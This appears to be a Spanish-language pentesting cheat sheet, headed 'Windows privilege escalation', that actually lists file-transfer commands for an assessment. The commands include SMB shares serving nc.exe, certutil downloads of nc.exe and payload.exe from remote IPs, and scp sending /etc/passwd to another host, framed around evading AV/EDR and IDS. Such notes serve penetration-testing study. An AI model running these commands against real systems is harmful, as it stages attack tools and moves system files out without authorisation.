 # Escalación de Privilegios en Windows

## Descripción
Comprender diferentes formas de realizar transferencias de archivos y cómo funcionan las redes puede ayudarnos a lograr nuestros objetivos durante una evaluación. Debemos ser conscientes de los controles del host que pueden impedir nuestras acciones, como la inclusión en listas blancas de aplicaciones o el bloqueo AV/EDR de aplicaciones o actividades específicas. Las transferencias de archivos también se ven afectadas por dispositivos de red como Firewalls, IDS o IPS que pueden monitorear o bloquear puertos particulares u operaciones poco comunes.

### Linux - Windows (smb no autenticado)

```python
sudo impacket-smbserver share -smb2support /tmp/smbshare (Linux)
copy \\192.168.220.133\share\nc.exe (windows)
```
### Windodws a linux (smb no autenticado)

```python
wget http://10.10.23.2/archivo.txt -O archivo_local.txt (shell en kali linux previamente)
```

### Linux - Windows (smb con autentificación)

```python
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test (Linux)
net use n: \\192.168.220.133\share\FILENAME /user:test test (windows)
```

### Web Download

```python
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

### Alternativas distintas
```python
python3 -m http.server
python2.7 -m SimpleHTTPServer
wget 192.168.49.128:8000/filetotransfer.txt
```

### SCP Upload
```python
scp /etc/passwd plaintext@192.168.49.128:/home/plaintext/
scp archivo.txt usuario@192.168.1.100:/home/usuario (windows a kali)
```

### Certuil Tranferir archivos
```python
certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe (windows)
certutil -urlcache -f http://10.10.23.2/payload.exe payload.exe (windows)
```
